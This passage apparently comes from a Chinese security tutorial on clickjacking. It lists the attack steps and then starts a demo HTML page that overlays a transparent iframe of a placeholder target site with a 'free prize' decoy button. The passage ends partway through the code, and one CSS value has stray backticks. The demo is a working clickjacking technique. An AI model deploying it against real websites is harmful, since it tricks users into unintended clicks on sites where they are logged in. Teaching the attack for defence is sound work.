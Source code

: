 1. 攻击者创建一个诱饵页面
2. 将目标网站通过 iframe 嵌入到诱饵页面
3. 使用 **CSS 将 iframe 设置为透明**
4. 在 iframe 上层放置诱人的内容
5. 诱导用户点击，实际点击到了透明 iframe 中的按钮

## 2. 攻击示例

### 2.1. 基础攻击示例

```html
  <!DOCTYPE html>
  <html>
  <head>
    <title>Clickjacking Demo</title>
    <style>
      .wrapper {
        position: relative;
        width: 500px;
        height: 300px;
      }
      
      .decoy-content {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        z-index: 2;
        background-color: white;
      }
      
      .target-iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        opacity: 0.3; /* 设置透明度用于演示，实际攻击中通常设为0 */
        z-index: 1;
      }
      
      .decoy-button {
        position: absolute;
        top: 50%;
        left: 50%;
        transform: translate(-50%, -50%);
        padding: 10px 20px;
        background-color: `#4CAF50;`
        color: white;
        border: none;
        cursor: pointer;
      }
    </style>
  </head>
  <body>
    <div class="wrapper">
      <!-- 目标网站的iframe -->
      <iframe class="target-iframe" src="https://target-website.com"></iframe>
      <!-- 诱饵内容 -->
      <div class="decoy-content">
        <h2>赢取免费奖品！</h2>
        <button class="decoy-button">点击领取</button>
```